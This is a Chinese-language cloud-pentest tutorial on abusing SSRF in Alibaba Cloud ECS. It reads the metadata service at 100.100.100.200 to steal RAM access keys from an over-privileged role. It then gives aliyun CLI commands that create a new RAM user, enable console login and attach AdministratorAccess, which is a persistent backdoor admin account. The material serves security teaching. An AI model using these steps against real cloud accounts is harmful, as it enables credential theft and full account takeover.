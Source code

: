 其实在ECS中的安全就已经讲到了，如果在ECS中部署的程序存在SSRF或者RCE（这里我们来说SSRF，并且假设当前的场景是有回显的SSRF，那么我们通过`http://100.100.100.200/latest/meta-data/`这个地址，获取ECS中的元数据，其实这里会存在一个问题，比如我们想读取临时的凭证，用这个凭证登录控制台，或者操作`aliyun cli`的话，其实默认配置下是不行的

![image-20220407104731233](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407104731233.png)

![image-20220407105025068](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407105025068.png)

上面的图片中我们可以看到一个SSRF的靶场，我们获取到的元数据，其实中间并没有一个叫RAM的目录，这上述能读到的东西，都无法让攻击者利用漏洞进行下一步（至少在默认配置下），那么我们来回答上面的问题，为什么ECS在默认配置下是没有RAM的元数据目录

![image-20220407104912061](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407104912061.png)

我们在ECS中，必须为当前ECS去手动授予RAM角色，既然涉及到授予角色，必然就会存在权限过大的问题，那么假设管理员给的权限比较大

![image-20220407105153681](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407105153681.png)

给了一个`AdministratorAccess`权限，那么此时如果造成了SSRF的话，就会出现下面的情况

![image-20220407105120157](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407105120157.png)

攻击者通过SSRF请求元数据获取到了ram的AK

![image-20220407105245684](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407105245684.png)

![image-20220407105348359](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407105348359.png)

那么此时就可以通过阿里云cli命令行工具，来操作该RAM用户拥有权限的资源，例如通过这个登陆控制台

首先获取当前的账号别名

```bash
aliyun ram GetAccountAlias
```

![image-20220413113819824](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220413113819824.png)

创建RAM用户

```bash
aliyun ram CreateUser --UserName xxx
```

![image-20220413113834914](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220413113834914.png)

为RAM用户启用Web登陆

```bash
aliyun ram CreateLoginProfile --UserName xxx --Password xxxx
```

![image-20220407105749507](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220407105749507.png)

为指定用户添加权限
```bash
aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName xxx
```
